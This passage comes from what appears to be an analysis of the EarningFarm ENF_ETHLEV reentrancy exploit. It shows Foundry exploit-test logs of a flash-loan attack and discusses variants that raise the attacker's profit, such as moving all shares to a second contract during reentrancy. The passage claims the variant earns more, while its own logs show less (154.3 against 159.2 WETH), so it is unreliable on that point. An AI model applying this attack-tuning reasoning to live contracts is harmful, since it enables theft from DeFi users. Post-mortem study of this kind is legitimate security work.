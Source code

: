 ```markdown
  [*] Attacker WETH balance after exploit: 159.163773138764416278

Test result: ok. 1 passed; 0 failed; finished in 1.34s
```

As observed, this earns 5 ethers more than borrowing 10,000 ethers due to reduced borrowing costs. (Although the hacker might not care about these 5 ethers, right? :))

### 2. Why “share - 1000”?

We noticed that the attacker transferred "share - 1000" to another contract during reentrancy. What's the purpose behind this choice?

Looking at the ENF\_ETHLEV contract code, if the attacker were to transfer all shares to another contract, leaving their balance at 0, it shouldn't trigger an error. Then, using another contract to withdraw all the shares, theoretically, the attacker could obtain more ETH than with "share - 1000". Let's implement this.

```markdown
Running 1 test for test/20230809_EarningFarm_exp_3.t.sol:ContractTest
[PASS] testExploit() (gas: 4086738)
Logs:
  [*] Attacker WETH balance before exploit: 0.000000000000000000
  ==================== Start of attack ====================
  [*] fee1: 5.000000000000000000
  [*] Attacker's ether balance at the start: 10000.000000000000000000
  ETH Vault:  320599650531622753094
  ETH transferred to cont
  Current Total:  320599650531622753094
  Controller:  320599650531622753094
  Exchange input:  1017776668354357946330 1017776668354357946330
  Exchange curve:  0xDC24316b9AE028F1497c275EB9192a3Ea0f67022
  Exchange:  1017475739806761189725 1017776668354357946330
  [*] Attacker's ether balance after deposit: 9679.400349468377246906
  [*] Attacker's LP share after deposit: 295.761225721251919241
  Cont Withdraw:  320097773741366419079 320097773741366419079
  [*] Attacker's LP share after withdrawing: 0.000000000000000000
  [*] Attacker ether balance after withdrawing: 9999.498123209743665985
  Cont Withdraw:  159826149929020750564 159826149929020750564
  [*] Attacker's total WETH after attack: 10159.324273138764416549
  [*] Attacker's total WETH after payback flashloan: 154.324273138764416549
  ==================== End of attack ====================
  [*] Attacker WETH balance after exploit: 154.324273138764416549

Test result: ok. 1 passed; 0 failed; finished in 1.34s
```

it turns out that this approach indeed generates slightly more profit than the original.

### 3. Is depositing an equal amount of ETH to the ENF\_ETHLEV contract the optimal choice?

At this point, we need to introduce a bit of mathematics.
